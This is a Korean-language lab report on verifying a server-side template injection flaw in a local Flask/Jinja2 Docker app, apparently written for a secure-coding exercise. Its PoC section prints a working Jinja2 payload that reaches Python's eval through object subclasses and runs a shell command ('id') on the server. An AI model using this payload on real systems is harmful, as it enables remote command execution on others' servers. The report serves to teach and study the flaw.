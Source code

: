 # SSTI (Server-Side Template Injection) 취약점 실습 보고서

---

## 1. 실습 개요

- **주제**: Flask 기반 웹 서버의 SSTI(Server-Side Template Injection) 취약점 검증
- **목표**: Jinja2 템플릿 엔진의 취약점을 이용하여 서버 측 명령어를 실행하는 PoC 검증

---

## 2. 환경 구성

- **OS**: Windows 10 (PowerShell 사용)
- **Docker**: Docker Desktop for Windows
- **Python**: 3.x 버전
- **Flask 버전**: 3.0.3

### 사용한 주요 파일

| 파일명 | 설명 |
|:---|:---|
| docker-compose.yml | Flask 서버를 컨테이너로 띄우기 위한 설정 파일 |
| Dockerfile | Flask 앱을 컨테이너화하기 위한 설정 파일 |
| src/app.py | SSTI 취약점이 존재하는 Flask 웹 어플리케이션 |
| poc.py | SSTI 취약점을 이용해 공격을 수행하는 PoC 스크립트 |

---

## 3. 동작 흐름

### 3.1 Docker Compose로 서버 실행

```bash
docker compose up --build
```

**실행 화면 캡처:**

![docker-compose-up](./images/docker-compose-up.png)



---

### 3.2 웹 브라우저에서 SSTI 테스트

- URL 접근:

```
http://localhost:8000/?name={{8*7}}
```

- 결과 화면:

![browser-ssti-test](./images/browser-ssti-test.png)

---

### 3.3 PoC 코드 실행

- `poc.py` 실행:

```bash
python poc.py
```

- 출력 결과:

![poc-execution](./images/poc-execution.png)

---

### 3.4 서버의 명령어 실행 결과

- 서버에서 `id` 명령어 결과를 반환:

![id-result](./images/id-result.png)

---

## 4. 취약점 검증 (PoC)

### 4.1 SSTI 공격 페이로드

```jinja2
{% for c in [].__class__.__base__.__subclasses__() %}
  {% if c.__name__ == 'catch_warnings' %}
    {% for b in c.__init__.__globals__.values() %}
      {% if b.__class__ == {}.__class__ %}
        {% if 'eval' in b.keys() %}
          {{ b['eval']('__import__("os").popen("id").read()') }}
        {% endif %}
      {% endif %}
    {% endfor %}
  {% endif %}
{% endfor %}
```

- 해당 페이로드를 통해 서버 내부에서 명령어 실행(`id`)을 성공적으로 수행하였다.

---

## 5. 결과 요약

| 항목 | 결과 |
|:---|:---|
| SSTI 취약점 존재 여부 | ✅ 존재 확인 |
| 명령어 실행 성공 여부 | ✅ 서버 명령어(id) 실행 성공 |
| PoC 성공 여부 | ✅ 성공적으로 서버 제어 |

---

## 6. GitHub 레포지터리

- 작업 결과 GitHub 레포지터리:  
[https://github.com/buddle031/secure-coding](https://github.com/buddle031/secure-coding)

---

## 7. 결론

본 실습을 통해 Flask/Jinja2 환경에서 발생 가능한 SSTI 취약점을 직접 검증하고, 서버 측 명령어 실행까지 성공하였다.  
이를 통해 서비스 개발 시 템플릿 렌더링 과정에서 입력값을 철저히 검증하고, 취약점을 예방하는 보안 조치가 필요함을 확인할 수 있었다.

--- 
![Image](https://github.com/user-attachments/assets/daadfddf-5e53-4cf1-bc6a-9b7e64732820)
